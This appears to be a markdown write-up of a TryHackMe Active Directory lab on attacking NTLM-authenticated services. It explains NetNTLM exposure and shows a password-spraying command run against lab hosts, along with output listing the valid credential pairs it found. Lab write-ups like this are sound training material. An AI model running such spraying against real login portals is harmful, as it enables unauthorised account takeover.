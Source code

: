 # NTLM authenticated services

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. 
NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication 
mechanism is used by the services on a network. And some services that use NetNTLM may also be exposed to the 
internet. Examples:

* Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that are internet-facing and make use of NetNTLM.

| ![Downgrade to ntlm](../../_static/images/outlook-ntlm-downgrade.png) |
|:--:|
| The user is now either granted access or denied access, authorisation is performed on the <br>Exchange server with consultation of the msg.target.com Domain Controller. |

NTLM is generally considered insecure because it uses outdated cryptography that is vulnerable to several modes of attacks. NTLM is also vulnerable to pass-the-hash and brute-force attacks.

## Password spraying

Most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, a password spraying attack might work. We could use tools such as Hydra to assist with the password spraying attack. The room uses a script named `ntlm_passwordspray.py`.

The core function takes a suggested password and a URL to target as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application responds with a 200 HTTP (OK) code. If the pair is invalid, the application returns a 401 HTTP (Unauthorised) code. 

The parameters:

* `userfile` - Textfile containing usernames (`usernames.txt`)
* `fqdn` - Fully qualified domain name associated with the organisation we are attacking (`za.tryhackme.com`)
* `password` - The password we want to use for our spraying attack (`Changeme123`)
* `attackurl` - The URL of the application that supports Windows Authentication (`http://ntlmauth.za.tryhackme.com`)

```text
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

Results:

```text
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```
